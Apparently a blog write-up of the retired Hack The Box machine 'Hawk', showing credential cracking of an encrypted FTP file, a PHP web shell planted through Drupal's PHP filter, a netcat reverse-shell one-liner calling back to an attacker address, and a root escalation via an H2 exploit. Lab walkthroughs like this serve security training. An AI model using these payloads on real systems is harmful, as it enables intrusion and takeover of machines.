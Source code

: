 ```yaml
---
title: Hawk Hackthebox Writeup
date: 2021-01-27 11:00:00 +0530
categories: [Hackthebox, Retired]
tags: [linux,h2 exploit,drupal,ftp anonymous,php filter module]     # TAG names should always be lowercase
image: /assets/img/hawk-hackthebox/hawk-pic.png
subtitle: JHBDOcubeoveiubo
---
```



# Introduction@Hawk:~$


Column | Details
------------ | -------------
Name | Hawk
IP | 10.10.10.102
Points | 30
Os | Linux
Difficult | Medium
Creator | [mrh4sh](https://www.hackthebox.eu/home/users/profile/2570)
Out on | 14th July 2018

# Summary:~$

* Discovering the new host and scanning for open ports.
* Decrypting a file found by logging into `ftp` using *anonymous*:*anonymous*.
* Logging into the `drupal` cms.
* Getting reverse shell using the `php filter` module.
* Escalating privileges using `h2` exploit.

# Starting:~$

I have used **nmapAutomator** , which keeps the scanning fast and reduces effort.*(Not recommended in real life scenarios).* 

Download link: [nmapAutomator](https://github.com/21y4d/nmapAutomator)

___
![](/assets/img/hawk-hackthebox/nmap-automator-1.png)

Full port scan using `nmap`: *nmap -p- -T4 -Pn -sV 10.10.10.102*

___
![](/assets/img/hawk-hackthebox/nmap-scan-1.png)

Let's check `Port 80`.

___
![](/assets/img/hawk-hackthebox/port-80-2.png)

It's a `drupal` webiste, let's check **/robots.txt**.

___
![](/assets/img/hawk-hackthebox/robots-txt-3.png)

I further accessed `http://10.10.10.102/CHANGELOG.txt` and found *drupal version* i.e. `Drupal 7.58`.

___
![](/assets/img/hawk-hackthebox/version-exposed-drupal-4.png)

I found an [exploit](https://www.exploit-db.com/exploits/44542) when googled the version vulnerabilities.

___
![](/assets/img/hawk-hackthebox/drupalexploitdb-5.png)

But it requires authentication of the user for that, let's check default credentials first on the login page. It didn't work.

`Port 21` is also open, let's try to login anonymously i.e. `anonymous`:`anonymous`.

___
![](/assets/img/hawk-hackthebox/ftp-anonymous-login-6.png)

We found a file in the directory, let's downloading it using the `get` command.

___
![](/assets/img/hawk-hackthebox/got-afile-7.png)

I opened the file and it looked like this:

___
![](/assets/img/hawk-hackthebox/opening-the-file-8.png)

As we know it's encrypted I ran `file` command on it to check for more details.

___
![](/assets/img/hawk-hackthebox/file-category-8.png)

It's a `openssl` and `base64` encrypted.

Let's decode it with base64 first.

**Command**: `cat .drupal.txt.enc | base64 --decode > drupal.txt.enc.decoded`

Now let's bruteforce the openssl file.

**Command**: *sudo apt-get install bruteforce-salted-openssl*

**Command**: *bruteforce-salted-openssl -f /usr/share/wordlists/rockyou.txt drupal.txt.enc.decoded*

We were unable to find the password but it showed that `sha` is `256`.

___
![](/assets/img/hawk-hackthebox/ssl-brute-force-error-9.png)

Improvising the **command**: *bruteforce-salted-openssl -d sha256 -f /usr/share/wordlists/rockyou.txt drupal.txt.enc.decoded*

We found the password as `friends`.

___
![](/assets/img/hawk-hackthebox/got-password-10.png)

Decoding the file

**Command**: *openssl aes-256-cbc -d -in drupal.txt.enc.decoded -out drupal.txt*

The digest is `SHA256` and cipher used is `AES-256-CBC` because that’s the default cipher that the program uses if it’s not specified

![](/assets/img/hawk-hackthebox/decoding-file-11.png)

We got a username and password as `Daniel`:`PencilKeyboardScanner123`.

___
![](/assets/img/hawk-hackthebox/got-new-username-password-12.png)

Let's try to login on the website using the above found credentials.

___
![](/assets/img/hawk-hackthebox/error-screenshot-13.png)

It threw me an error saying `invalid` credentials.

Let's try `admin`:`PencilKeyboardScanner123`. Successfully logged in.

___
![](/assets/img/hawk-hackthebox/loggedin-14.png)

Now in the `module` section turn on the `PHP filter`.

___
![](/assets/img/hawk-hackthebox/turn-on-php-filter-15.png)

Add a new content and add the following in the body --> `<?php system($_GET['cmd']); ?>`. Make sure to save the file with php.

___
![](/assets/img/hawk-hackthebox/add-php-content-16.png)

Accessing *http://10.10.10.102/node/1?cmd=whoami*, we got `www-data`.

___
![](/assets/img/hawk-hackthebox/command-execution-17.png)

Now let's go for the reverse shell, I used BurpSuite for it.

Check this for the [payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#ncat)

**Payload Used**: *rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.X.X 4242 >/tmp/f*

___
![](/assets/img/hawk-hackthebox/got-shell-18.png)

Got `User` Flag.

Let's send `LinEnum.sh` for escalating privileges.

**Hosting Command**: *python3 -m http.server 8081*

**wget command**: *wget http://10.10.X.X:8081/LinEnum.sh*

Ran LinEnum.sh after giving executing permissions using *chmod +x LinEnum.sh* and found this

___
![](/assets/img/hawk-hackthebox/linenum-result-19.png)

As we know `Port 8082` is running **H2 Database**, and it only allows connections locally.

___
![](/assets/img/hawk-hackthebox/port-8082-20.png)

I search for some exploits and found [this](https://www.exploit-db.com/exploits/45506)

Downloading the exploit to our victim machine using wget, and executing it we got `Root`.

____
![](/assets/img/hawk-hackthebox/got-root-21.png)

